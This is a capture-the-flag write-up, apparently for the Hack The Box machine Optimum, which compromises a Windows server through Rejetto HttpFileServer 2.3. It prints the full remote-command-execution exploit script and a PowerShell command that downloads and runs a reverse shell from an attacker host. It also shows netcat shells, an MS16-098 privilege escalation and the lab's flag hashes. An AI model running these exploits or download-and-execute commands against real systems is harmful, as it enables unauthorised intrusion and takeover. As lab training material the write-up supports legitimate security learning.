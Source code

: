 # Optimum
>Author : Xyan1d3
>Date : 28th June 2021
>IP : 10.10.10.8
>OS : Windows
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Mon Jun 28 16:20:55 2021 as: nmap -sC -sV -v -oN nmap/optimum 10.10.10.8
Nmap scan report for optimum.htb (10.10.10.8)
Host is up (0.076s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that we have only port `80/tcp` open which shows the banner of `HttpFileServer httpd 2.3` which we can look for an available exploits.

## Web Enumeration
We take a look at the page running on `80/tcp` which shows that it is running `Rejetto HttpFileServer 2.3`.
![[Pasted image 20210628162535.png]]

We do a simple `searchsploit` to find out that the site is vulnerable to `Unauthenticated Remote Command Execution`.

![[Pasted image 20210628164048.png]]

We copy the exploit to our home directory using `searchsploit -m` and run the exploit.
```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
        http = urllib3.PoolManager()
        url = f'http://{sys.argv[1]}:{sys.argv[2]}/?search=%00{{.+exec|{urllib.parse.quote(sys.argv[3])}.}}'
        print(url)
        response = http.request('GET', url)

except Exception as ex:
        print("Usage: python3 HttpFileServer_2.3.x_rce.py RHOST RPORT command")
        print(ex)
```

To run the exploit we must enter `python3 exploit.py RHOST RPORT CMD`.

To, Test this exploit we could run a `netcat` on `80/tcp` and try to curl on us using powershell `Invoke-WebRequest`.

![[Pasted image 20210628165136.png]]

# Initial FootHold as kotas
We could abuse the vulnerablility to get a shell on the box by executing a Nishang Reverse Shell on the box.

![[Pasted image 20210628170038.png]]

We could now get the `user.txt`.
```powershell
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/optimum]
└──╼ # nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.10.8 49226

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
PS C:\Users\kostas\Desktop> ls


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-a---         18/3/2017   2:11 ??     760320 hfs.exe                                                                   
-ar--         18/3/2017   2:13 ??         32 user.txt.txt                                                              


PS C:\Users\kostas\Desktop> cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

# Root Escalation
For, Root Escalcation we need to check the system OS information for finding any possible exploits.
```python
PS C:\Users\kostas\Desktop> systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          4/7/2021, 10:47:11 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC           
```

There are also a bunch of hostfixes installed.
```python
Hotfix(s):                 31 Hotfix(s) Installed.                                                                                                                       
                           [01]: KB2959936 
                           [02]: KB2896496 
                           [03]: KB2919355 
                           [04]: KB2920189 
                           [05]: KB2928120 
                           [06]: KB2931358 
                           [07]: KB2931366 
                           [08]: KB2933826 
                           [09]: KB2938772 
                           [10]: KB2949621 
                           [11]: KB2954879 
                           [12]: KB2958262 
                           [13]: KB2958263 
                           [14]: KB2961072 
                           [15]: KB2965500 
                           [16]: KB2966407 
                           [17]: KB2967917 
                           [18]: KB2971203 
                           [19]: KB2971850 
                           [20]: KB2973351 
                           [21]: KB2973448 
                           [22]: KB2975061 
                           [23]: KB2976627 
                           [24]: KB2977629 
                           [25]: KB2981580 
                           [26]: KB2987107 
                           [27]: KB2989647 
                           [28]: KB2998527 
                           [29]: KB3000850 
                           [30]: KB3003057 
                           [31]: KB3014442
```

# Root Escalation
This is a `Windows Server 2012 R2` x64 Os which is has many vulnerabilities of which we will be exploiting `MS16-098`.

## Exploiting MS16-098
Exploit Link : https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe
We will also need a normal netcat shell with `cmd.exe` to pull off this exploit.
So, We Make a `www` directory and copy `nc64.exe` and `bfill.exe` there and host it with Impacket `smbserver.py`.

![[Pasted image 20210628182951.png]]

```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/optimum/www]
└──╼ # nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.10.8 49188
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas

C:\Users\kostas\Desktop>\\10.10.14.11\magisk\bfill.exe
\\10.10.14.11\magisk\bfill.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```


We are now, `NT Authority/SYSTEM` on the box and can now get our `root.txt`
```python
C:\Users\kostas\Desktop>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  03:14     <DIR>          .
18/03/2017  03:14     <DIR>          ..
18/03/2017  03:14                 32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.885.611.008 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```